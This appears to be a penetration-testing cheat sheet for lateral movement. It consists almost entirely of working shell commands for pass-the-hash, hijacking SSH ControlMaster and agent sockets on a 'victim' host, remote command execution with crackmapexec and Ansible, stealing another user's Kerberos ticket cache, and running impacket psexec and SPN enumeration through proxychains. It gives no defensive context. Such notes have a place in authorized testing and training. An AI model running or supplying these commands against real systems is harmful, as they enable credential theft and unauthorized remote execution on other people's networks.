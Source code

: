 Fileless PTH
```shell
python3 scshell.py domain/user@192.168.1.1 -hashes 00000000000000000000000000000000:00000000000000000000000000000000 -service-name SensorService
```

ControlMaster
```shell
ssh -S /home/user/.ssh/controlmaster/user\@linuxvictim\:22 user@linuxvictim
```

SSH-Agent
```shell
SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh user@linuxvictim
```

Ansible
```shell
ansible victims -a "whoami"
ansible victims -a "whoami" --become
```

Crackmapexec

```shell
crackmapexec smb 192.168.1.1 -d domain.com -u x -p h4x -x dir

--exec-method {mmcexec,wmiexec,smbexec,atexec}
```

Powershell remoting
```shell
crackmapexec winrm -d domain.com -u Administrator -p 'pass123' -x "whoami" 192.168.1.1
```

Pass the hash
```shell
crackmapexec smb 192.168.1.1 -d domain.com -u admin -H 11111111111111111111111111 -X dir
```

Use keytab of user
```shell
sudo cp /tmp/krb5cc_607000500_3aeIA5 /tmp/krb5cc_minenow
sudo chown user:user /tmp/krb5cc_minenow
ls -al /tmp/krb5cc_minenow
kdestroy
klist
export KRB5CCNAME=/tmp/krb5cc_minenow
klist
```

Use keytab with impacket
```shell
proxychains python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 192.168.120.5 DOMAIN.COM/Administrator
proxychains python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip 192.168.120.5 DOMAIN.COM/Administrator
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@DC01.DOMAIN.COM -k -no-pass
```

